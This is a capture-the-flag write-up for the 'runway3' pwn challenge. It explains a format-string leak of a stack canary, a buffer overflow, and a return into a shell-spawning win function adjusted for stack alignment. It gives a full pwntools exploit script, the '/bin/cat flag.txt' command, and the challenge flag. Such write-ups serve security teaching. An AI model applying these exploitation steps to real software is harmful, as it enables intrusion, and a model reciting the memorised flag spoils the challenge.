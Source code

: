 https://ctftime.org/event/2449

# runway3 (pwn)

A new technique!

nc challs.pwnoh.io 13403

## Analysis

We can see that this binary is a 64 bit x86 ELF with canaries but no PIE:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We can overflow the buffer on the stack in `echo` however due to the stack canary we must first leak its value in order to overwrite both it and the return address:

```C
int echo(int amount) {
    char message[32];

    fgets(message, amount, stdin);

    printf(message);
    fflush(stdout);
}
```

We can use the `printf` with an attacker controlled string in `echo` to leak the value of the canary on the stack. We can do this with the format string `"%13$p"`. You can experiment with different values to come to this value.

Once we have learnt the value of the canary on the stack we can safely smash the stack with the address of the `win` function:

```C
int win() {
    printf("You win! Here is your shell:\n");
    fflush(stdout);

    system("/bin/sh");
}
```

## Solution

1) Leak the canary with the attacker controlled format string in `echo`
2) Overwrite the return address on the stack in `echo` with `fgets`
3) Note that jumping to the start of `win` leaves the stack unaligned and causes the program to crash later when an instruction which assumes the stack is aligned to 16 bytes finds that it is not. Therefore we jump to `win` + 0x17 which is the offset of the instruction after the stack is manipulated. This results in the stack being correctly aligned upon entry to `win`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./runway3", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("challs.pwnoh.io", 13403)

p.sendlineafter(b"?\n", b"%13$p")
canary = int(p.readline().decode(), 16)

payload = b"A" * 0x28
payload += p64(canary)
payload += p64(0)
payload += p64(elf.sym["win"] + 0x17)

p.sendline(payload)

p.recv(0x28)

p.sendline(b"/bin/cat flag.txt")

p.interactive() # bctf{wh0_kn3w_pr1nt1ng_w4s_s0_d4nG3R0Us_11aabc3287e74603}
```

## Flag
`bctf{wh0_kn3w_pr1nt1ng_w4s_s0_d4nG3R0Us_11aabc3287e74603}`

smiley 2024/09/29

